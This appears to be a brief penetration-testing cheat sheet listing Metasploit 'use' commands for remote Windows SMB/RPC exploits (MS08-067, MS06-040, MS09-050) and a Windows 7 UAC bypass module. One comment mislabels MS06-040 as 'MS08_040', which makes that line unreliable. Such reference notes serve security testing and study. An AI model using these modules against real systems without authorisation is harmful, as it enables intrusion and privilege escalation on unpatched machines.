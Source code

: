 # Exploits





### Common Modules

Remote Exploits

```bash
#MS08_067 Windows 2k, XP, 2003 Remote Exploit
use exploit/windows/smb/ms08_067_netapi

#MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit
use exploit/windows/dcerpc/ms06_040_netapi

#MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Local Exploits

```bash
#Bypass UAC on Windows 7 + Set target + arch, x86/64
use exploit/windows/local/bypassuac
```

